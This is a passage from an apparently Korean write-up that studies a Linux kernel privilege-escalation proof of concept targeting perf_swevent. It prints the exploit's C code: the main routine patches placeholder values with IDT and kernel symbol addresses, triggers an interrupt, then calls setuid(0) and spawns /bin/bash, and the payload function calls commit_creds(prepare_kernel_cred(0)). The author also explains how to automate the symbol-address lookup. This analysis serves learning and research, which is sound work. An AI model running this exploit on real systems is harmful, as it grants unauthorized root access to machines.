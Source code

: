 ```c

	for (j = 0; j < 3; j++) {
		needle = AB(j+1);
		assert(p = memmem(code, 1024, &needle, 8));
		*p = !j ? (idt.addr + int_n * 16 + 8) : targets[target][j];
	}
	trigger(offset);
	switch (int_n) {
	case 3:
		asm volatile("int $0x03");
		break;
	case 4:
		asm volatile("int $0x04");
		break;
	case 0x80:
		asm volatile("int $0x80");
	}

	assert(!setuid(0));
	return execl("/bin/bash", "-sh", NULL);
}
```

이번에는 `payload`함수의 `perf_swevent_init`, `commit_creds`, `prepare_kernel_cred`의 심볼 주소를 가져오는 부분을 자동화 해보도록 하자.

원래 PoC에서는 심볼 주소를 두곳에서 설정한다.

1. `payload()`
	```c
	void __attribute__((regparm(3))) payload() {
		uint32_t *fixptr = (void*)AB(1);
		// restore the handler
		*fixptr = -1;
		commit_creds_fn commit_creds = (commit_creds_fn)AB(2);
		prepare_kernel_cred_fn prepare_kernel_cred = (prepare_kernel_cred_fn)AB(3);
		commit_creds(prepare_kernel_cred((uint64_t)NULL));
	}
	```
	이 함수에서 `fixptr`이라는 변수명으로 `perf_swevent_enabled` 주소를 가져오고, 해당 값을 -1로 설정한다.
	이후 `commit_creds`와 `prepare_kernel_cred` 주소를 가져와 권한 상승 과정의 핵심인 `commit_creds(prepare_kernel_cred(0));`를 실행하게 된다.

	이 부분에서 `AB(x)` 매크로 호출을 통해, 실제 가젯이 들어가야 할 부분을 특수한 더미 값으로 채우는데, 디버깅 할때 메모리 서치를 편하게 하기 위해서인지, 아니면 `-O2` 옵션을 통해 컴파일 최적화를 할 때 가젯을 불러오는 부분에 최적화가 수행되어 원하지 않는 동작을 유발하는건지 모르겠지만, 특수한 더미 값이 실제 가젯이 존재해야 할 위치에 쓰이게 된다.

2. `main()`
	```c
	for (j = 0; j < 3; j++) {
		needle = AB(j+1);
		assert(p = memmem(code, 1024, &needle, 8));
		*p = !j ? (idt.addr + int_n * 16 + 8) : targets[target][j];
	}
	```


[^x64_syscall_table]: <https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/>